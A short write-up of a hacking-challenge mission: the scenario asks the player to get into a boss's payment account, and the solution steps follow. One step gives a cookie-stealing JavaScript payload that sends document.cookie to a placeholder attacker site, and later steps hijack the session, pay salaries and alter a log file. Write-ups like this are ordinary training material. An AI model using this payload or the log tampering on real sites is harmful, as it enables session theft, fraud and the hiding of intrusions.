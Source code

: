 # Challenge 9
## Question
From:

Message: Hey man,
I've heard you're good at hacking, and on the right side of things. So I came looking for you. I really need help, you see, my boss has stopped paying our salaries and I'm going to miss my rent! Please help me get my money, you can reach the site at Crappy Soft. They have an online payment system, but only he can use it. Maybe you can get into his account somehow, but for now you can use mine:

Username: r-conner@crappysoft.com
Password: ilovemywork

Thanks man, good luck.

## Solution
1. Try to login using the credential given by the questions
2. When you observe the website in "Demo", you will realize a path way "./files/..."
3. I try to observe the directories in the website and I realize there is a mailing list
4. I "Private Message" enter these : 

Subject : cookiesstealer.php

Message : javascript:void(window.location="www.yourwebsite.com/cookiestealer.php + document.cookie)

5. Cookies is given, replace the cookies in inspection.

![image](https://github.com/user-attachments/assets/d3d310fe-0542-42a4-98ea-82621adb49fd)

6. Go to "Pay Salaries" to complete the transaction 
7. Go to mailing list, switch the txt files in inspection to logs.txt and paste the IP address.

![image](https://github.com/user-attachments/assets/ca2f8d19-1da1-4253-80d6-6cbd3779e294)
